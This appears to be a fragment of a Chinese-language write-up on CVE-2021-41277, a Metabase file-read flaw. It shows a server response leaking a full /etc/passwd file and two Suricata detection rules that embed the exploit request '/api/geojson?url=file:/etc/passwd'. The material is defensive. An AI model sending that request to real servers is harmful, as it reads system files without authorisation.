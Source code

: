 ```yml
Content-Type: application/json
Content-Encoding: gzip
Expires: Tue, 03 Jul 2001 06:00:00 GMT
Transfer-Encoding: chunked
Server: Jetty(9.4.32.v20200930)

root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-bus-proxy:x:999:998:systemd Bus Proxy:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:998:997:User for polkitd:/:/sbin/nologin
tss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
chrony:x:997:995::/var/lib/chrony:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
nscd:x:28:28:NSCD Daemon:/:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
ops:x:1000:1000::/home/ops:/bin/bash
service:x:1001:1001::/home/service:/bin/bash
zabbix:x:1002:1002::/home/zabbix:/sbin/nologin
grafana:x:996:994:grafana user:/usr/share/grafana:/sbin/nologin
mysql:x:995:1003::/usr/local/mysql:/sbin/nologin
saslauth:x:994:76:Saslauthd user:/run/saslauthd:/sbin/nologin
metabase:x:1003:1004::/home/metabase:/bin/bash
redis:x:993:991:Redis Database Server:/var/lib/redis:/sbin/nologin
nginx:x:992:990:Nginx web server:/var/lib/nginx:/sbin/nologin
openvpn:x:991:989:OpenVPN:/etc/openvpn:/sbin/nologin
```

#### 检测规则/思路

Suricata规则

```yml
alert http any any -> any any (msg:"CVE-2021-41277-rsq";flow:established,to_server;content:"GET";http_method;content:"/api/geojson?url=file:/etc/passwd";http_uri;reference:url,github.com/Seals6/CVE-2021-41277;flowbits:set,first_rsq;noalert;classtype:web-application-attck;sid:1;rev:1;)

alert http any any -> any any (msg:"CVE-2021-41277-Metabase敏感信息泄露漏洞";flow:established,to_client;content:"200";http_stat_code;content:"/bin/bash";http_server_body;flowbits:isset,first_rsq;sid:2;rev:1;)
```
